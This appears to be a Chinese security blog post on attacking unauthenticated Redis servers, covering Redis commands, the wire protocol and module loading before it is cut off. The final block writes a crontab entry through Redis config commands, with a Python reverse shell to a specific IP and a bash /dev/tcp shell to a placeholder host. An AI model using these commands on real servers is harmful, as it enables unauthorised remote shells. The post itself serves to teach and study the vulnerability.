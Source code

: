 ```yaml
---
title: Redis Slaveof Attack
date: 2020-07-28 18:18:17
tags: [Redis,Vuln,WEB]
abstract: Redis Vuln shared by LC⚡️BC.
header_image: /intro/post-bg-huiye.png
top:
---
```


# The foregoing.
当初，WCTF2019 Final赛后分享会上，`LC⚡️BC`战队成员公开的Redis主从攻击RCE激起了一波研究热潮。究其原因便是该攻击的普适性可以让所有4.x/5.x版本非授权访问的Redis无处遁形，本文就Redis攻击基础和Redis主从攻击作粗略讨论。

# PART1: Redis basics
在讲主从攻击之前，我们需要了解一些攻击相关的命令和通讯协议结构。
## Redis基础
Redis作为极其轻量化的数据结构存储媒介，让其成为很多场景的解决方案：
* 序列化Session/Caching数据存储
* PUB/SUB消息服务
* 异步任务队列的消息代理

其命令也比常见数据库要简单很多：
* 存储/获取键值型的数据: `set <key> <value>` & `get <key>`
* 修改/获取配置: `config <get> <key>` & `config set <key> <value>`
* 获取该Redis基本信息: `info`
* 保存: `save`
* 停止: `shutdown [save/nosave]`
从简单的介绍中，读者也应该隐约理解Redis产品定位和其收到追捧的原因。不过，本文之意不在Redis入门，故不再赘述。

## Redis协议分析
首先请试想一下，在Redis命令行中输入`SET a helloworld`这一串字符后，它会出现在网络数据包的什么地方，并以什么形式呈现呢？
其实，Redis的通讯协议比较简单，它是基于TCP，并将通讯内容明文传输，这有点类似于初学python编写的TCP聊天室一样简单，但是Redis添加了修饰符保证通讯稳定性和可靠性。
比如上文的字符串在TCP Payload中形如：`*3\r\n$3\r\nSET\r\n$1\r\na\r\n$10\r\nhelloworld\r\n`，读者略微思考一下就可以弄懂其逻辑结构: `*`号后的数字用于表示参数数量，`$`号后的数字用于表示参数长度，各具有单独意义的字符串通过CRLF分开。
而Redis对传入数据包的回复更加简单，通常采用`+`号后跟响应字符串（通常为OK），并以CRLF结尾，形如：`+OK\r\n`。

## Redis模块
Redis 4.x之后，Redis可以通过添加C语言编译出的`.so`文件来为其自定义地添加新命令。模块有两种加载方式：
1. 在配置文件中MODULES板块下添加`loadmodule /path/to/my/module.so`，Redis便会启动时加载该模块。
2. 通过`redis-cli`使用命令`module load /path/to/my/module.so`加载。

加载的模块可以使用命令`module list`查看，使用MODULE UNLOAD mymodule卸载。
既然可以自定义新命令，那么有没有开发者实现执行系统命令的模块呢？答案是肯定的，该项目可编译出相关模块: https://github.com/n0b0dyCN/RedisModules-ExecuteCommand

# PART2: Redis SLAVEOF Attack
## 未授权Redis Getshell
在主从攻击公布之前，我们针对未授权Redis主要采用crontab来getshell。大致操作如下：
```
$ config set dir /var/spool/cron/crontabs
$ config set dbfilename root
$ set 1 "\n* * * * * /usr/bin/python -c 'import socket,subprocess,os,sys;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"115.28.78.16\",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n" 
or: $ cat foo.txt | redis-cli -h 10.133.1.79 -p 6379 -x set key  &&  echo "\n* * * * *  bash -i &gt;&amp; /dev/tcp/xx.xx.xx.xx/xxxx 0&gt;&amp;1\n">>foo.txt
```